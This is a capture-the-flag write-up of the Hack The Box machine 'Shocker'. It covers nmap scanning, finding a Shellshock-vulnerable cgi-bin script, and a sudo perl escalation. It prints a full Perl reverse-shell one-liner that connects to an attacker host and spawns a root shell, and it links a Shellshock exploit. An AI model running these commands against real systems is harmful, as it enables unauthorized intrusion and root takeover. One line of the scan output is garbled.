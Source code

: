 Below is my write-up on Shocker from HTB. 
At the time of writing, the IP address was 10.10.10.56. Unfortunately, I had lost my write-ups for Shocker & Nibbles. I'm rebuilding them, however it is done after the fact and with way less struggling. So let's get started!

let's hit nmap first.

`└──╼ $nmap -T4 -A -v 10.10.10.56`

>Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-12 07:17 MST
>NSE: Loaded 146 scripts for scanning.
>NSE: Script Pre-scanning.
>Initiating NSE at 07:17
>Completed NSE at 07:17, 0.00s elapsed
>Initiating NSE at 07:17
>Completed NSE at 07:17, 0.00s elapsed
>Initiating Ping Scan at 07:17
>Scanning 10.10.10.56 [2 ports]
>Completed Ping Scan at 07:1qwdsc                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        ion of 1 host. at 07:17
>Completed Parallel DNS resolution of 1 host. at 07:17, 0.06s elapsed
>Initiating Connect Scan at 07:17
>Scanning 10.10.10.56 [1000 ports]
>Discovered open port 80/tcp on 10.10.10.56
>Discovered open port 2222/tcp on 10.10.10.56
>Completed Connect Scan at 07:18, 26.81s elapsed (1000 total ports)
>Initiating Service scan at 07:18
>Scanning 2 services on 10.10.10.56
>Completed Service scan at 07:18, 6.59s elapsed (2 services on 1 host)
>NSE: Script scanning 10.10.10.56.
>Initiating NSE at 07:18
>Completed NSE at 07:18, 10.10s elapsed
>Initiating NSE at 07:18
>Completed NSE at 07:18, 0.00s elapsed
>Nmap scan report for 10.10.10.56
>Host is up (0.42s latency).
>Not shown: 998 closed ports
>PORT     STATE SERVICE VERSION
>80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
>| http-methods: 
>|_  Supported Methods: GET HEAD POST OPTIONS
>|_http-server-header: Apache/2.4.18 (Ubuntu)
>|_http-title: Site doesn't have a title (text/html).
>2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
>| ssh-hostkey: 
>|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
>|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
>|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (EdDSA)
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
>
>NSE: Script Post-scanning.
>Initiating NSE at 07:18
>Completed NSE at 07:18, 0.00s elapsed
>Initiating NSE at 07:18
>Completed NSE at 07:18, 0.00s elapsed
>Read data files from: /usr/bin/../share/nmap
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
>Nmap done: 1 IP address (1 host up) scanned in 44.62 seconds



Hmm ok. Well, we've got web and ssh. Let's hit the website and see what's up!
![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker1.jpg?raw=true)
Nothing too interesting there..source?

```
> <!DOCTYPE html><html><body>
><h2>Don't Bug Me!</h2><img src="bug.jpg" alt="bug" style="width:450px;height:350px;">
></body></html> 
```

Ok yeah, still not much to go on here. Let's try to find any other pages on the site. 

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker2.jpg?raw=true)

Hmm...Disappointing. 
Not really much to go on here.

Thinking about the name of the box, I'm guessing shocker had to do with the shellshock vulnerability. However, I am not seeing anything in the cgi-bin folder that is exploitable. I even downloaded a special cgi-bin wordlist. What am I missing?
Ok, I figured it out. Apparently I was looking for only bin, py and didn't do a search for .sh. So I found user.sh in the cgi-bin folder and now we have our way in.
So in terms of the actual exploit, I found [this neat python script](https://gist.github.com/matjohn2/bc9689c60d4c9c5a2538/) from user [matjohn2 on github](https://github.com/matjohn2/) Thanks, matjohn2!

Super simple, it has the reverse shell built in! So I launch that and Aw yes, we got that userrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrr!

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker3.jpg?raw=true)


Sup' shelly what have you got in store for us?

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker4.jpg?raw=true)

After minimal enumeration 
`sudo -l`
I found this...

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker5.jpg?raw=true)

Whaaaat, Shelly you shouldn't have. (Really, you shouldn't have!)

So it's just as simple as starting up another netcat listener terminal window and sending this glorious reverse shell: 

`sudo perl -e 'use Socket;$i="myip";$p=myport;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`


![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker6.jpg?raw=true)

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker7.jpg?raw=true)

My face when I saw that: 


![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker8.jpg?raw=true)



So now that this box is all said and done, I did struggle a lot before I realized it was shellshock. I even remember examining the image of the "bug" for steganagrophy. My lesson for this write-up...Make backups of your notes :). Thanks again for reading!
